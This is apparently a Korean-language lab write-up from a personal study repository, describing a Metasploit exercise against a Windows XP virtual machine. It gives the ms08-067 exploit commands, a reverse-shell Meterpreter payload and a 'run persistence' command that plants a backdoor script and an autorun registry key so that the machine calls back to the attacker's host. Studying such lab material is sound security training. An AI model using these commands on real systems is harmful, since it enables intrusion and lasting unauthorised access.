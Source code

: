 # 실습과정

### 1. Persistence
Meterpreter는 Persistence를 이용하여 시스템에 BackDoor를 남기고 지속적으로 드나들 수 있는 통로를 만들 수 있다.


일단 Kali에서 root의 권한으로 CMD창을 열고
**msfconsole** 을 입력해 msfconsole을 실행한다.  
[img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/%EC%8B%A4%EC%8A%B51.png)

그 다음은 우리가 공격할 대상인 WindowXp의 취약점인 ms08-067을 통해 공격을 할 것이므로 이를 설정해 놓는다.  
**search ms08-067**  
**use exploit windows/smb/ms08_067_netapi**  
**set payload windows/meterpreter/reverse_tcp_allports**  
**show options**  
[img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/%EC%8B%A4%EC%8A%B52%20%EA%B8%B0%EB%B3%B8%20%EC%84%A4%EC%A0%95.png)

이후 나머지 RHOST와 LHOST를 설정한다.
**set RHOST (window XP IP)**  
**set LHOST (Kali IP)**  
**run**  
을 실행한다.
[img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/%EC%B9%A8%ED%88%AC%20%EC%99%84%EB%A3%8C.png)  
이렇게하면 우리는 성공적으로 window Xp에 들어올 수 있게 된다.
그다음 우리는 우리의 목표인 Persistence를 얻기위해 다음의 작업을 진행한다.
**run persistence -h**  
[img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence%EC%98%B5%EC%85%98%EC%97%90%20%EB%8C%80%ED%95%9C%20%EC%84%A4%EB%AA%85.png)  
위의 사진에서 보다 싶이 여러 옵션을 통해 persistence를 설정할 수 있다.
우리는 아래의 명령어를 통해 시스템이 부팅이 되면 자동적으로 실행, 연결 시도 간격을 10초로 설정해서 persistence를 작업한다.  
**run persistence -A -P windows/meterpreter/reverse_tcp_allports -X -i 10 -p 5555 -r (Kali IP)**  
[img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence%EC%98%B5%EC%85%98%20%EC%84%A4%EC%A0%95.png)  
설정이 완료되었다면 다음과 같은 형상이 나타나게 된다.
결과를 보면 첫번째 [+]를 보면 공격대상에 해당경로에 Persistence Script(Back Door)가 쓰여있는 것을 볼 수 있다.

그렇다면 우리는 Window Xp에서 해당 파일이 있는지 확인해보면 다음과 같다.
[img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%EC%97%90%20Script%ED%8C%8C%EC%9D%BC%20%EC%83%9D%EC%84%B1.png)  
실제 Window Xp의 C:\WINDOWS\TEMP의 경로에 해당파일이 생성되어있는 것을 알 수 있었다.

그리고 handler가 싷행되었고 마지막 [+]를 보면 BacckDoor가 자동적으로 실행시키기 위한 install key가 생성되었다고 나와있다.
이는 우리가 옵션으로 생성한 결과이므로 이를 Window Xp의 실제 register에서 보면 다음과 같은 결과를 볼 수 있다.
[img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%EB%A5%BC%20%EC%9C%84%ED%95%9C%20install%20key.png)  다음과 같은 파일이 설정되고 있는 것을 볼 수 있다.
또한 Kali에서 session이 맺어진것으로도 확인할 수 있다.
이 세션은 Window Xp가 종료되면 자동적으로 사라지고 실행되면 자동적으로 맺어진다.
[https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp%EC%A2%85%EB%A3%8C%EC%8B%9C%20%EC%84%B8%EC%85%98%EC%83%81%ED%83%9C.png)  
